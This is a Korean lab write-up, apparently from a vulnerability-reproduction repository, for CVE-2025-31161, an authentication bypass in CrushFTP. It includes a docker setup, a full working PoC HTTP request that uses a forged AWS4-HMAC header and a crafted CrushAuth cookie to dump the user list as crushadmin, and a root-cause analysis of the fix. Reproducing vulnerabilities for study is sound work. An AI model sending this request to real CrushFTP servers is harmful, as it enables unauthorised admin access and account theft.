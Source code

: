 # CVE-2025-31161 | CrushFTP Authentication Bypass
---
> 화이트햇 스쿨 3기 (19반) - [김휘성 (@hwisungkk)](https://github.com/hwisungkk) / [Blog Link](https://hwisungkk.github.io/)<br>
> [상세 취약점 분석](https://abounding-king-077.notion.site/CVE-2025-31161-1e289d4224478074b76bdf15b4a30590) - notion
>
> https://github.com/hwisungkk/kr-vulhub/tree/main/CrushFTP/CVE-2025-31161 <br>
> [Pull requests 요청](https://github.com/gunh0/kr-vulhub/pull/273)

<br>

### 요약
- 다중 프로토콜, 다중 플랫폼을 지원하는 파일 전송 서버인 CrushFTP AWS S3 인증 과정의 헤더 처리 로직 결함으로 인한 인증 우회 취약점입니다. <br>

- 알려진 사용자명을 이용해 공격자는 인증 없이 관리자 권한 획득이 가능해서 원격 코드 실행까지 가능합니다.
  
- 패스워드 검증 과정에서 문제가 발생해 검증이 생략됩니다.

- CVE-2025-2825로 발급된 후 reject되고 CVE-2025-31161로 부여되었습니다.

### target
- CrushFTP 11.0.0 ≤ 11.3.0
- CrushFTP 10.0.0 ≤ 10.8.3


## 환경 구성 및 실행
- [CrushFTP 10.8.0_4 version](https://github.com/NetLah/docker-crushftp/tree/main) 해당 repo에서 취약점이 발생하는 CrushFTP 버전 사용.

- `docker run -p 21:21 -p 443:443 -p 20000-20100:20000-20100 -p 2222:2222 -p 8080:8080 -p 9090:9090 -v ~/crushftp-data:/var/opt/crushftp --name crushftp netlah/crushftp:latest` 터미널에서 실행해서 127.0.0.1:8080 에서 CrushFTP 서버를 실행

- burpsuit로 PoC message를 보내 계정 인증 우회 가능. 계정 정보 출력으로 관리자 권한 확인

## Poc message
```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111 HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8081/WebInterface/UserManager/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: CrushAuth=1743113839553_e96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Connection: keep-alive

```
```
1. 가짜 AWS S3 인증 헤더와 특수하게 포맷된 CrushAuth 쿠키를 사용하여 악성 HTTP 요청 작성 
2. "crushadmin"과 같은 알려진 기본 사용자 이름을 타겟팅 (~ 문자 제외하고)
3. CrushFTP 웹 인터페이스에 요청 제출
```
- Authorization 헤더는 "AWS4-HMAC"로 시작<br>
- CrushAuth는 유효할 필요없이 13개 숫자 + 언더바 + 30자 문자열<br>
- 마지막 4글자가 c2f와 같다면 사용자 목록을 서버로부터 응답받을 수 있습니다.

## 결과
**서버**
![normal](./assets/open_server.png)

![normal](./assets/open_server2.png)

127.0.0.1:8080에 띄운 후<br>
burpsuite로 poc message를 보내면<br>

![normal](./assets/poc.png)

**계정 정보 탈취 성공**

## 정리
```c
boolean lookup_user_pass = true;  // Default to true - this is crucial!
```
코드처럼 true로 권한을 주고, 뒤의 흐름에서 어떤 조건(해당 취약점에서는 '~'가 있는지)으로 false로 바꾸는 흐름은 위험합니다. 조건을 우회하기만 하면 변수의 값이 true로 남고, 악용할 수 있기 때문입니다.<br>

현재는 방어 방법으로 보안을 위한 새로운 매개변수를 만들어서 false 값을 준 다음 lookup_user_pass가 아닌 매개변수로 검사를 해서 로직을 나눴습니다.
